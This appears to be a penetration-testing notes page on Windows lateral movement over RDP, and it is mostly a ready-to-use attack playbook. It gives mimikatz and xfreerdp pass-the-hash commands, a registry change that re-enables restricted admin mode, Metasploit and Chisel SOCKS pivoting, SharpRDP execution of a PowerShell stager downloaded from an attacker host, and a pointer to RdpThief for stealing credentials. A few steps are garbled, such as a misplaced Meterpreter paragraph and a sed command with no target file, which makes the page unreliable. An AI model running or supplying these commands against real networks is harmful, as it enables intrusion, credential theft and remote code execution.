 ```yaml
---
title: Windows lateral movement
tags:
  - windows
  - lateral
  - movement
  - breach
  - operations
  - rdp
  - proxy
  - metasploit
  - sharprdp
  - mimikatz
  - hashing
  - pass
  - hash
  - socks
  - chisel
---
```


## Remote desktop protocol

**Remote desktop protocol (RDP)** is a Windows application that allows users to
create interactive sessions between Terminal Servers. Regular authentication via
RDP caches the user's credentials on the host, as a user's credentials are
required to authenticate to the remote server. Using the techniques we described
[[windows-credentials|in our Mimikatz discussion]], we can dump a user's
password hashes for cracking later.

Using the terminal service, `mstsc.exe`, we can also authenticate to and
establish sessions with remote hosts without providing credentials, using cached
credentials of the logged-in user. We can do this by providing the
`/restrictedadmin` parameter during the invocation of the `mstsc.exe` program.
This technique is called **passing the hash**.

### Passing the hash

In a scenario where we're in the possession of a password hash for the `admin`
user of a domain and we're logged into a terminal within the domain as a
different user, for example `dave`, because we have connectivity to the domain
controller within the domain, we can attempt to pass the hash using the `admin`
user's NTLM hash to acquire a session on the target host. Here's a demonstration
of this using **mimikatz**:

```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:${USER} /domain:${DOMAIN} /ntlm:${HASH} /run:"mstsc.exe /restrictedadmin"
```

Restricted admin mode is not enabled by default, however, we can use the pass
the hash technique to execute commands on the target host to re-enable
restricted admin mode by targeting the
`HKLM:\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin` registry
key. Invoking the following `mimikatz` command will provide us with a
**PowerShell** session as a target user by passing the hash:

```cmd
mimikatz # sekurlsa::pth /user:${USER} /domain:${DOMAIN} /ntlm:${HASH} /run:powershell
```

Once the Meterpreter session is active, we'll send it to the background and
switch to the `multi/manage/autoroute` module. This will allow us to configure a
reverse tunnel through the Meterpreter session and use that with a **SOCKS**
proxy. Invoking the following PowerShell, we can impersonate the target user and
enable restricted admin mode:

```powershell
Enter-PSSession -Computer "${COMPUTERNAME}"
New-ItemProperty `
	-Path "HKLM:\System\CurrentControlSet\Control\Lsa" `
	-Name DisableRestrictedAdmin `
	-Value 0
```

We can also pass NTLM hashes with **xfreerdp** by invoking the following:

```bash
xfreerdp /u:${USER} /pth:${HASH} /v:${RHOST}
```

### Proxying RDP sessions

We'll frequently encounter scenarios where our compromised targets are protected
within a virtual network with a NAT gateway, firewall, etc. preventing us from
creating inbound connections to our target. This is why reverse shells are so
useful, because the compromised host can call back to our C2 to establish a
connection, bypassing any firewalls and enabling our connection to the remote
target.

#### Metasploit

Once we land a **meterpreter** agent on a target host, we can use that agent to
proxy our RDP session by establishing a reverse tunnel and a **SOCKS** proxy. We
invoke the following in **msfconsole** with an active agent session to establish
a proxy:

```bash
use multi/manage/autoroute
set session ${SESSION}
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j
```

The above invocation establishes a reverse tunnel through the current session,
creating routing rules on our attacker host to route traffic destined for our
target's private network through the tunnel we created. We then establish a
SOCKS proxy on the host listening on `127.0.0.1:1080` and run it in the
background.

Now we can use the **proxychains** application to proxy our RDP communications
to the target through the SOCKS proxy with the example invocation:

```bash
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
proxychains rdesktop ${RHOST}
```

We can use `proxychains` for more than just RDP, we can use applications like
**nmap**, for host discovery within the target's private network, or **firefox**
to browse web applications on servers only routeable within the target network.

#### Chisel

[Chisel](https://github.com/jpillora/chisel) is a pretty neat application that
can also create reverse tunnels and proxy our communications. We can invoke the
following with `chisel` to setup a SOCKS proxy on our attacker host:

```bash
chisel server -p 8080 --socks5
sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' # enable SSH password login on this host
sudo systemctl start ssh.service
ssh -N -D 0.0.0.0:1080 localhost
```

On the target, we can execute the following to initiate a reverse tunnel with
`chisel`:

```powershell
chisel.exe client ${LHOST} socks
```

Once the reverse connection is established, we can use the SOCKS proxy to
establish an RDP session with our target:

```bash
sudo proxychains rdesktop ${RHOST}
```

### SharpRDP

[SharpRDP](https://github.com/0xthirteen/SharpRDP) uses the terminal services
library, `mstscax.dll`, to interact with non-scriptable interfaces for
authentication used in the same way by `mstsc.exe`. We can use **SharpRDP** to
execute code through the `SendKeys` terminal services interface, requiring no
GUI access and rendering the creation of reverse tunnels unnecessary. Here's an
example execution of `SharpRDP.exe` to invoke an application on a target host
after authentication:

```powershell
Start-Process `
	-FilePath ".\SharpRDP.exe" `
	-ArgumentList @(
		"computername=${COMPUTERNAME}",
		"command=${COMMAND}",
		"username=${DOMAIN}\${USER}",
		"password=${PASSWORD}"
	)
```

Here's an example invocation to execute the download of a PowerShell stager on a
target host:

```powershell
$COMMAND="powershell -Command `"(Invoke-RestMethod -Uri http://${LHOST}:${LPORT}/stager.ps1 -UseBasicParsing) | Invoke-Expression`""

Start-Process `
	-FilePath ".\SharpRDP.exe" `
	-ArgumentList @(
		"computername=${COMPUTERNAME}",
		"command=${COMMAND}",
		"username=${DOMAIN}\${USER}",
		"password=${PASSWORD}"
	)
```

### Stealing RDP credentials

When users provide their credentials to establish RDP sessions, they're passed
in plaintext to the program. If we could inject into the `mstsc.exe` and hook
the correct methods, we could dump the user's credentials when they attempt to
RDP - essentially a keylogger. [RdpThief](https://github.com/0x09AL/RdpThief) is
a standalone DLL that we can inject to conduct this attack. Tools like
[RDPThiefInject](https://github.com/S3cur3Th1sSh1t/RDPThiefInject) provide
example code to generate payloads.
